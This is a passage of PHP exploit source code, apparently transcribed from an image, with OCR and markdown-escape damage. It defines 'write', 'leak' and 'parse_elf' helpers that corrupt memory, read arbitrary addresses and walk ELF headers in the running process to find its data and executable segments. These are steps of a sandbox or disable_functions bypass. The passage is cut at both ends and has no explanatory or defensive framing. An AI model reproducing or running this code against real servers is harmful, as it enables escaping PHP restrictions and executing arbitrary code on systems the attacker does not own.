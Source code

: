 	$i = 0;

	for($i = 0; $i < $n; $i++) {

	$str\[$p + $i\] = chr($v & 0xff);

	$v >>= 8;

	}

	}


	function leak($addr, $p = 0, $s = 8) {

	global $abc, $helper;

	write($abc, 0x68, $addr + $p - 0x10);

	$leak = strlen($helper->a);

	if($s != 8) { $leak %= 2 << ($s \* 8) - 1; }

	return $leak;

	}


	function parse\_elf($base) {

	$e\_type = leak($base, 0x10, 2);


	$e\_phoff = leak($base, 0x20);

	$e\_phentsize = leak($base, 0x36, 2);

	$e\_phnum = leak($base, 0x38, 2);


	for($i = 0; $i < $e\_phnum; $i++) {

	$header = $base + $e\_phoff + $i \* $e\_phentsize;

	$p\_type = leak($header, 0, 4);

	$p\_flags = leak($header, 4, 4);

	$p\_vaddr = leak($header, 0x10);

	$p\_memsz = leak($header, 0x28);


	if($p\_type == 1 && $p\_flags == 6) { # PT\_LOAD, PF\_Read\_Write

	\# handle pie

	$data\_addr = $e\_type == 2 ? $p\_vaddr : $base + $p\_vaddr;

	$data\_size = $p\_memsz;

	} else if($p\_type == 1 && $p\_flags == 5) { # PT\_LOAD, PF\_Read\_exec

	$text\_size = $p\_memsz;

	}
